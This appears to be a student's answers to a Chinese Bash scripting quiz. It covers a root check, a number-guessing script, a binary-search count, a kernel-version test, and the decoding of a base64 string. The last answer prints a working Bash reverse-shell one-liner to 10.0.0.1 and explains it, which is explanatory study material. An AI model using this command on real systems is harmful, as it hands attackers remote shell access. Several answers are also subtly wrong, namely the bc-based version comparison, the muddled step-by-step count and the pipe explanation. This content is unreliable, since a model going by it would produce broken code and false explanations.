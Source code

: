 测试题结果：
1.[ $(id -u) = 0 ] && echo "hi,root" || echo $USER
2.
#!/bin/bash
# 随机生成一个 1 到 20 之间的整数
number=$((RANDOM%20+1))
# 最多允许猜测 5 次
for i in {1..5}
do
    # 提示用户输入猜测值
    read -p "请输入您的猜测值（1-20）：" guess

    # 判断是否猜中了
    if [ $guess = $number ]
    then
        echo "猜中了！"
        exit 0
    fi
    # 判断猜测值相对于目标数的大小
    case $((guess > number)) in
        0)
            echo "猜小了！"
            ;;
        1)
            echo "猜大了！"
            ;;
    esac
done
3.
如果猜数字范围为 0 到 1000，那么最少需要猜 10 次才能保证一定能猜中。这是因为：在第一次猜测时，我们可以猜 500；如果目标数比 500 小，我们就知道目标数在 0 到 500 之间，否则目标数在 500 到 1000 之间。然后，我们可以再猜测中间值（即 250 或 750），如此反复缩小猜测范围，直到猜中为止。
具体来说，第一次猜测的范围是 0 到 1000，共有 1001 种可能，猜错了一半，剩下 501 种可能。第二次猜测的范围是上次猜测的一半，即 0 到 500 或 500 到 1000，共有 2 种可能，猜错了一半，剩下 251 种可能。依此类推，每次猜测可以将可能性减半，猜测次数为 log2(1001)，约等于 9.97，向上取整为 10。因此，为了确保一定能猜中，我们至少需要猜测 10 次。
4.
[ $(echo "$(cut -d. -f1-2 /proc/sys/kernel/osrelease) > 5.4" | bc) -eq 1 ] && echo "yes" || echo "no"
5.
经过 base64 解码，得到如下字符串：
08|196;exec 196<> /dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196
这是一条 Bash 反向 shell 的命令，用于建立一个反向连接，将目标系统的 Shell 会话转发到攻击者指定的 IP 地址和端口。具体来说，该命令分为以下几部分：
08：该字符串的开头是一个数字 08，可能是用于指示连接方式或协议等信息；
|：管道符号将后面的输出重定向到前面的输入；
196：一个随机的文件描述符，用于连接远程主机；
exec 196<> /dev/tcp/10.0.0.1/6564：使用 exec 命令打开一个 TCP 连接，并将其关联到文件描述符 196 上。其中 /dev/tcp/10.0.0.1/6564 是一个特殊的设备文件路径，表示连接到 IP 地址为 10.0.0.1，端口号为 6564 的主机上；
bash <&196 >&196 2>&196：将当前 Shell 切换为 Bash，并将文件描述符 196 关联到 Bash 的标准输入、输出和错误输出。这样，所有输入输出都将通过 TCP 连接进行转发，攻击者就可以在自己的主机上获取到目标主机的 Shell 会话。
